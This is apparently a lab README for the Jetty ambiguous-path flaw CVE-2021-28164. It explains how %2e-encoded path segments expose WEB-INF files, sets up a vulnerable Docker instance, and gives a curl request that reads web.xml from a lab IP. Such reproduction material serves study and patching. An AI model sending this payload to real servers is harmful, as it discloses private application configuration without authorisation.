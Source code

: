 # Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-28164)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty release 9.4.37 introduced a more precise implementation of RFC3986 with regards to URI decoding, together with some new compliance modes to optionally allow support of some URI that may have ambiguous interpretation within the Servlet specified API methods behaviours. The default mode allowed % encoded . characters to be excluded for URI normalisation, which is correct by the RFC, but is not assumed by common Servlet implementations.

The default compliance mode allows requests with URIs that contain `%2e` or `%2e%2e` segments to access protected resources within the WEB-INF directory. For example a request to `/context/%2e/WEB-INF/web.xml` can retrieve the web.xml file. This can reveal sensitive information regarding the implementation of a web application.

This bug is fixed on version 9.4.39.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## Vulnerable Application

Execute the following command to start a Jetty 9.4.37 server.

```
docker compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page.

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.

![](1.png)

Use `%2e/` to bypass the restriction:

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)
